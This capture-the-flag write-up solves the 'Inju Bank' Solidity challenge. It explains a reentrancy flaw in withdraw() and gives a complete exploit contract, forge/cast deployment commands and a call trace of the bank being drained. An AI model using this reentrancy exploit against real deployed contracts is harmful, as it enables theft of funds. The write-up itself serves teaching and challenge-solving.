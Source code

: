 This Bank is not as secure as you might think, first let's see what is the *isSolved()* condition on the Setup Contract &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import {InjuBank} from "./InjuBank.sol";

contract Setup {
    InjuBank public immutable IB;

    constructor() payable{
        IB = new InjuBank{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(IB).balance == 0;
    }
}
```
&nbsp;  
based on the Setup Contract, the initial balance of the bank is 50 Ether, while the *isSolved()* will return true if it has 0 balance, not let's see the Inju Bank to see what are we dealing with. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract InjuBank{

    mapping(address => uint256) public balanceOf;

    constructor() payable{}

    function deposit() public payable{
        require(msg.value > 1 ether, "Minimum Deposit is 1 ether");
        uint256 toAdd = msg.value;
        balanceOf[msg.sender] += toAdd;
    }

    function withdraw(uint256 _amount) public{
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        balanceOf[msg.sender] = newBalance;
    }

    receive() external payable { 
        deposit();
    }

}
```
&nbsp;  
We only have 2 function to deal with in this contract, yeah let's say the *receive()* is the same as the *deposit()*. So first, the *deposit()* function allow us to deposit some Ether to the bank and add it to our account, it has the minimum deposit of 1 Ether. Next up, is the *withdraw()* that allow us to withdraw our money with the minimum amount of 1 Ether per withdrawal, nothing seems strange until we look more closely &nbsp;  
&nbsp;  

```solidity
    function withdraw(uint256 _amount) public{
        // CHECKS 
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        // INTERACTIONS
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        // EFFECT
        balanceOf[msg.sender] = newBalance;
    }
```
&nbsp;  
The best practice of any function is always CEI or **CHECK** - **EFFECT** - **INTERACTIONS**, the *withdraw()* function however doesn't seem to apply this correctly, instead it implements CIE or **CHECK** - **INTERACTIONS** - **EFFECT**, in this case the **INTERACTIONS** is sending the balance to the *msg.sender*, which if it's a smart contract or more explicitly an Exploit Contract, we can control what to do next after receiving any Ether by modifying the *receive()* function on our Exploit Contract. &nbsp;  
&nbsp;  
The Exploit will have this flow, first we have to deposit some Ether, since the minimum is one an we have 6 Ether, we can give our Exploit 5 Ether and make it deposit all that Ether. Next is calling the withdraw with the value of 5 (our balance), upon receiving the Ether, we can just make it trigger another *withdraw()* of another 5 Ether, this will be repeated until we drain all the balance on the Inju Bank. The Exploit would look like this &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./InjuBank.sol";
import "./Setup.sol";

contract Exploit{
    Setup public immutable setup;
    InjuBank public immutable IB;

    constructor(address payable _setup) payable {
        require(msg.value == 5 ether, "need 5 ether");
        setup = Setup(_setup);
        IB = InjuBank(setup.IB());
    }

    function exploit() public{
        IB.deposit{value: 5 ether}();
        IB.withdraw(5 ether);
    }


    receive() external payable { 
        if(address(IB).balance >= 5 ether){
            IB.withdraw(5 ether);
        }
    }

}
```
&nbsp;  
To Deploy the Exploit Contract and run it we can use this command &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/inju-bank/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Calling the exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
After running the command, if you press the `Flag` button now you should get the flag. By the way if you are curious on like how the attack worked, here is a little flow of the Exploit. &nbsp;  
&nbsp;  
```bash
├─ [123849] Exploit::attack()
    │   ├─ [22434] InjuBank::deposit{value: 5000000000000000000}()
    │   │   └─ ← ()
    │   ├─ [91371] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   ├─ [83596] Exploit::receive{value: 5000000000000000000}()
    │   │   │   ├─ [83031] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   ├─ [75256] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   ├─ [74691] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   ├─ [66916] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   ├─ [66351] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   ├─ [58576] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [58011] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   ├─ [50236] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [49671] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41896] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41331] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [33556] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [32991] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [25216] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [24651] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16876] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16311] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [8536] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [7971] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [196] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   └─ ← ()
    │   │   │   │   └─ ← ()
    │   │   │   └─ ← ()
    │   │   └─ ← ()
    │   └─ ← ()
```
&nbsp;  
In short, when the Ether is received by our Exploit Contract, it will first check whether the Inju Bank Contract still has balance or not (greater than or equal to 0), if it's valid, it will then call another *withdraw()* with 5 Ether, until it's false.